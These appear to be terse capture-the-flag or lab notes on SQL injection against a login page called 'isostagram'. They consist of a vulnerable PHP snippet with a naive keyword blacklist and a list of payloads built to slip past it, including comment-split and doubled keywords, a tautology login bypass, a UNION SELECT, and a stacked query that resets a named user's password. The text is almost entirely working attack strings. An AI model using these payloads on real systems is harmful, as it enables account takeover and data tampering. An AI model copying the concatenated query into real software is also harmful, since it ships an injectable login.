 # isostagram
sql injection




$blacklist = array("union", "select", "where", "and", "or");
$replace = array("", "", "", "", "");
$username = str_ireplace($blacklist, $replace, $username);
$password = str_ireplace($blacklist, $replace, $password);
$sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";

kita0421
UPDATE users SET `password`='123';--
WHERE some_column=some_value;

```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--
AS INJECTX WHE/**/RE 1=1 AND 1=1  
1' OORR '1' = '1' limit 1; --
 "’ OORR ‘’=‘’-- "
 /*union*/union/*select*/select+'kita0421','kita0421','kita0421' -- 
```